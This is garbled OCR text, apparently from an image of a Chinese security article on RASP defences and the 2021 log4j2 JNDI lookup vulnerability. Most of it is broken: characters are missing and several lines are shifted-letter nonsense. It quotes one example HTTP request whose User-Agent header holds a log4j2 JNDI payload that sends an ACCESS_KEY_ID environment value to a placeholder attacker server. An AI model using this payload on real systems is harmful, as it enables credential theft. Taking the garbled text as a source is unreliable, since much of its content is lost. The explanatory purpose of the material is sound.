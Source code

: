  

 

OBNFTQBDF 

"1*

"1*

"1*

 12 RASP
  / SSRFXXE  Payload   

30

3. 



 2021  12  log4j2 CNVD-2021-95914  log4j2  JndiLookup  
1 
2 log4j2  3 4 

HTTP request is sent GET /index.html User-Agent:${indi:service://attack.server.url/?s=${env:ACCESS_KEY_ID}







-PHK
$POUFYU.BQ -PPLVQ
+7.

+OEJ -PPLVQ
+/%*

&WFOU -PPLVQ

+BWB 

3"41


 

 13 log4j2 
3    WAF 1 2RASP    3RASP  

31



3. 

3.1.2 

1       2   "" 




1  2 

3 
